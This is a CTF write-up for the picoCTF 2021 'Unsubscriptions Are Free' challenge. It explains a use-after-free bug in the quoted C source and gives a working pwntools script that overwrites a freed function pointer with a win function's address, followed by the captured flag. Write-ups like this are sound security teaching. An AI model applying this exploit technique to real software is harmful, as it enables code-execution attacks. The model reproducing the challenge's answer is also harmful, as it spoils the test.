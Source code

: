```yaml
---
layout: post
title: Use after free - picoCTF 2021 Unsubscriptions Are Free
tags: [CTF, pwn]
---
```

> Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](https://mercury.picoctf.net/static/95f0b63e520ae2beece2ca11235808f8/vuln) and get a flag. [source](https://mercury.picoctf.net/static/95f0b63e520ae2beece2ca11235808f8/vuln.c)

Take a look at the source code. `main` function has a `print -> set -> run` pattern. The `processInput` function sets what to do for the next iteration and the `doProcess` function excutes it. `user` is a global pointer pointing to a `cmd` structure. The following are some code snippets
```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}
```

There are some suspicious things in the source. First is this `hahaexploitgobrrr` function which isn't called anywhere but address printed in the `S` operation.
```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

Also the `I` operation `free`s the `user` object, but it may be invoked multiple times?
```c
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```
```
❯ ./vuln
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
i
You're leaving already(Y/N)?
y
Bye!
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
i
You're leaving already(Y/N)?
y
Bye!
free(): double free detected in tcache 2
[1]    38303 IOT instruction (core dumped)  ./vuln
```
And since `doProcess` will always run, this could be a **Use-After-Free** condition.

## Use-After-Free
So normally after a `free`, the `free`d memory is sort of "stored" in tcache. The next `malloc` will try to allocate memory from it if possible. The content isn't wiped and that's what happened during [Cache Me Outside](https://nickchen120235.github.io/2022/04/09/cache-me-outside.html). But the problem in the use-after-free case is that some memory is `free`d, but a pointer doesn't know whether the memory it's pointing to is valid or not. It is the heap manager who knows whether a `free` operation can be done. Exploiting UAF requires a `malloc` after `free`, modify the memory, and access through the original pointer (remember pointer is how a program interpres a chunk of memory).

## Attack
There is a `malloc` we can use, the `L` operation. It `malloc`s 8 bytes of memory and reads user input, and after that `doProcess` is invoked.
```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```
So the target is to write `hahaexploitgobrrr`'s memory to the first member of `cmd`. And since `vuln` is compiled with `NO PIE`, the address we found locally could also be used in remote environment.

The final exploitation script is the following, it `free`s `user` by `I` then modify it by `L`, which will then execute `hahaexploitgobrrr` because of `doProcess`.
```python
from pwn import *

# p = process("./vuln")
p = remote("mercury.picoctf.net", 58574)

p.sendline(b"i")
p.sendline(b"y")

p.sendline(b"l")
sleep(1)
p.sendline(p64(0x80487d6))

p.interactive()
```
```
❯ python3 ./solve.py
[+] Opening connection to mercury.picoctf.net on port 58574: Done
[*] Switching to interactive mode
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
You're leaving already(Y/N)?
Bye!
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
I only read premium member messages but you can 
try anyways:
picoCTF{d0ubl3_j30p4rdy_ec42c6fc}
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
```

## Reference
- [https://papadoxie.github.io/Writeups/PicoCTF/UnsubscriptionsAreFree/UnsubscriptionsAreFree.html](https://papadoxie.github.io/Writeups/PicoCTF/UnsubscriptionsAreFree/UnsubscriptionsAreFree.html)